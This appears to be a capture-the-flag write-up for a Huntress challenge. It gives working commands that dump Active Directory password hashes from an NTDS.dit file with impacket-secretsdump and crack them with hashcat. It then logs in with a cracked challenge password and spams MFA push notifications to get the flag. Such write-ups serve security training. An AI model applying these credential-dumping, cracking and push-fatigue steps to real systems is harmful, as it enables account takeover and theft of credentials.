




# Solution
- Hit the start button and download the NTDS.zip file.
- Unzip the file.
```bash
unzip NTDS.zip
```
- secretsdump from Impacket can extract password hashes from NTDS.dit file. Run the following command to get the password hashes and save them in the file "secDumpOut".
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL > secDumpOut
```



- Copy the nthash passwords of all the huntress.local account in a file called "hashes".
- Run hashcat to crack the hashes.
```bash
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt -O
```
- Show the cracked hashes.
```bash
hashcat -m 1000 --show hashes
```



- Browse the link challenge and login as "huntressctf\JILLIAN_DOTSON" with the password "katlyn99".



- Spam the button "Send Push Notification" to get the flag.


